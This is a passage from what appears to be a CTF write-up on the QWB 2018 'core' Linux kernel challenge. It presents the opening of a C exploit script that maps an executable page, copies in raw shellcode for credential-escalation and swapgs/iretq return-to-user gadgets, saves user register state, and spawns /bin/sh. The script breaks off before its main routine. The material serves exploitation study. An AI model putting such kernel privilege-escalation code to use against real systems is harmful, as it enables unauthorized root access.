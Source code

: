 This method is almost the same as `ret2user`. The only difference is that we need to find the gadgets. I'll just show you the exploit script.

```c
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/ioctl.h>
#include <stdlib.h>
#include <sys/wait.h>
#include <sys/stat.h>
#include <stdint.h>
typedef unsigned int uint;
void Panic(char *s)
{
    printf("[!] Panic:");
    puts(s);
    exit(1);
}
uint64_t u64(uint8_t *buf)
{
    uint64_t res = 0;
    for(int i =0 ; i < 8;i++)
    {
        res = res<<8;
        res+=(uint)buf[7-i];
    }
    return res;
}

char* shellcode(){
    char * gadgets = mmap(0xdead000,0x1000,7,0x22,0,0);
    char *str = "H1\xffX\xff\xd0H\x97X\xff\xd0\x0f\x01\xf8H\xcf";
    memcpy(gadgets,str,0x100);
    return gadgets;
}

// xor rdi,rdi
// pop rax
// call rax
// xchg rax,rdi
// pop rax
// call rax
// swapgs
// iretq

void shell(){
    system("/bin/sh");
}
size_t user_cs, user_ss, user_rflags, user_sp;
void save_status()
{
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    puts("[*] status has been saved.");
}
#define OFFSET  0x6677889C
#define READ    0x6677889B
```

[1]: https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/kernel
[2]: https://github.com/n132/attachment/tree/main/QWB_2018/core